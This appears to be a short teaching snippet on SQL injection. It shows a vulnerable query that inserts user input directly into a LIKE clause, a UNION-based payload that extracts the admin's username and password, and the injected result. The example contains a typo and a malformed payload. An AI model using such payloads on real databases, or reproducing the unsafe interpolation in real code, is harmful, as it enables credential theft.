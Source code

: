 #sqli
## Code
```sql
SELECT username, email
FROM users 
WHERE email LIKE '%$request%' 
LIMIT 10;
```

## Payload
Request:
```sql
' and UNION SELECT username, password FROM users WHERE username='admin' --
```

## Injected
```sql
SELECT sername, email
FROM users 
WHERE email LIKE '%' and UNION SELECT username, password FROM users WHERE username='admin' --%' 
LIMIT 10;
```
